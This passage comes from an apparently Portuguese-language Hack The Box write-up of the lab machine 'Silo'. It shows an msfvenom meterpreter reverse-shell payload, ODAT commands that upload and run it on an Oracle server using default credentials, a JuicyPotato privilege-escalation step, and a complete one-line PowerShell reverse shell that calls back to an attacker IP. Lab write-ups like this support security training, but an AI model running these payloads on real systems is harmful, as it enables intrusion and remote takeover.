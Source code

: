 `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.117 LPORT=443 -f exe -o shell.exe`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_m.png)

Setamos o handler na porta 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_m1.png)

Agora upamos ele para o servidor

`python3 /opt/odat/odat.py utlfile -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --putFile \\temp shell.exe shell.exe`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_m2.png)

Agora executamos ele

`python3 /opt/odat/odat.py externaltable -s 10.10.10.82 -U scott -P tiger -d XE --sysdba --exec /temp shell.exe`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_m3.png)

Recebemos a seção do meterpreter

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_m4.png)

Como authority

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_m5.png)

# Escalação de Privilégio (3º Modo - RottenPotato)

Se olharmos as permissões dos Tokens com o `whoami /priv` vemos que temos nosso amigo `SeImpersonatePrivilege`, ou seja, podemos executar o rottenpotato, juicypotato ou o lonelypotato, todos é pra dar certo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_j.png)

Então baixamos ele para nossa máquina

> https://github.com/ohpe/juicy-potato/releases

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_j1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_j2.png)

Criamos um arquivo para ser executado como root, o arquivo é simples, é um nishang powershell tcp em uma linha

rev.bat

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.117',5555); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ ;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; $client.Close()"`
